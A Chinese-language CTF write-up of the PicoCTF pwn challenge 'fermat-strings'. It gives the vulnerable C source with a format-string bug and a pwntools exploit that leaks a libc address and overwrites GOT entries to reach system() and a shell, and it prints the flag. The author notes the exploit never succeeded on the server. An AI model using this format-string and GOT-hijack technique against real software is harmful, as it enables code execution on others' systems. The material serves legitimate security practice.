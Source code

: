 ```yaml
---
title: PicoCTF - fermat-strings
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - fermat-strings
<!-- more -->

## Background
[C 庫函數 - strcspn()](https://www.runoob.com/cprogramming/c-function-strcspn.html)
> 該函數返回 str1 開頭連續都不含字符串 str2 中字符的字符數。

[atoi() - C語言庫函數](http://tw.gitbook.net/c_standard_library/c_function_atoi.html)
> 這個函數返回一個int值轉換的整數。如果冇有有效的轉換可以執行，它返回零。

[C 库函数 - snprintf()](https://www.runoob.com/cprogramming/c-function-snprintf.html)
> snprintf() 函數的返回值是輸出到 str 緩沖區中的字符數，不包括字符串結尾的空字符 \0。如果 snprintf() 輸出的字符數超過了 size 參數指定的緩沖區大小，則輸出的結果會被截斷，只有 size - 1 個字符被寫入緩沖區，最後一個字符為字符串結尾的空字符 \0。
>
>需要注意的是，snprintf() 函數返回的字符數並不包括字符串結尾的空字符 \0，因此如果需要將輸出結果作為一個字符串使用，則需要在緩沖區的末尾添加一個空字符 \0。


[Format Specifiers in C](https://www.geeksforgeeks.org/format-specifiers-in-c/)

## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0;
  B[strcspn(B, "\n")] = 0;

  a = atoi(A);
  b = atoi(B);

  if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
  }

  char buffer[SIZE];
  snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
  printf(buffer);

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}
```
:::

## Recon
這一題太難了，可以參考的資料太少了，大部分都有一些缺失，而且重點是server那邊的版本和local端不一樣就會造成got hijack失敗，所以最後沒有做出來，但是流程還是可以記錄一下
1. 先leak stack的資訊，例如`__libc_start_main`的address，然後到[^libc_database_search]查詢，光這一點耗費蠻多心力，雖然說只要查看stack上相對的位置，就可以leak出對應的address，但有可能是因為我local端libc version是2.35，所以找不到對應位置上libc address在database上的資料，但在server端卻找得到，這可能是不同版本的鍋，所以之後要找這種libc version的問題，最好是在2.31的地方
2. 得到libc的version後，就可以算offset，得出libc base address，然後就可以得出system在libc的確切位址，又由於這隻程式只會執行一次就結束，所以我們要讓他有loop的效果，作法就是got hijack，改掉pow的got位置為main function的address
註：為甚麼是改pow而不是atoi, snprintf之類的function的got?因為pow是比較後面被呼叫到的function，如果修改那些太早被呼叫到的function就馬上從main開始執行，這樣就沒辦法開shell了
3. 接著我們可以再從第二次的input中開shell，這就是最後做不出來的地方，除了之前沒有寫過相關的題目不知道怎麼開以外，其他WP[^fermat-strings][^picoMini-by-redpwn][^picoMini-by-redpwn-2021-Darin's-Challenges]也都會有其他的問題

## Exploit
```python!
from pwn import *
exe = ELF("chall")
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

context.binary = exe
context.terminal = "kitty"

offset___libc_start_main_ret = 0x026fc0
offset_system = 0x0000000000055410
# offset___libc_start_main_ret_local = 0xac0b3c2270
# offset_system_local = 0x050d60

r = remote("mars.picoctf.net", 31929)
# r = process('./chall')

'''#############
leak libc address
#############'''
payload1 = b'1 %2082c%12$hn  ' + p64(exe.got['pow'])
payload2 = b'2 %109$p'
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)
print(r.recvuntil(b" 2 0x"))
return_value = int(r.recv(12).strip(), 16)
libc_addr = return_value - 243 - offset___libc_start_main_ret
success(f"Return Value = {hex(return_value)}")
success(f"libc address = {hex(libc_addr)}")
success(f"libc system address = {hex(libc_addr + offset_system)}")
# success(f"libc system address = {hex(libc_addr + offset_system_local)}")
# success(f"libc address = {hex(libc_addr - offset___libc_start_main_ret_local)}")


'''#############
Get Shell
#############'''
# raw_input()
third = (libc.sym['system']>>16)&0xff
bottom = libc.sym['system'] & 0xffff
first = third - 21
second = bottom - third

payload1 = f'1 %{first}c%43$hhn%{second}c%44$hn'
payload2 = b'2'.ljust(8, b' ') + p64(exe.got['atoi']+2) + p64(exe.got['atoi'])
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)

r.interactive()
```

Flag: `picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}`

## Reference
[^fermat-strings]:[fermat-strings](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF_redpwn/fermat-strings.md)
[^picoMini-by-redpwn]:[picoMini by redpwn](https://heinen.dev/picoctf-2021-redpwn/#fermat-strings)
[^picoMini-by-redpwn-2021-Darin's-Challenges]:[picoMini by redpwn 2021 - Darin's Challenges](https://activities.tjhsst.edu/csc/writeups/picomini-redpwn-darin#fermat-strings-pwn)
[^libc_database_search]:[libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A0x7fa8cf54d0b3&l=libc6_2.31-0ubuntu9.1_amd64)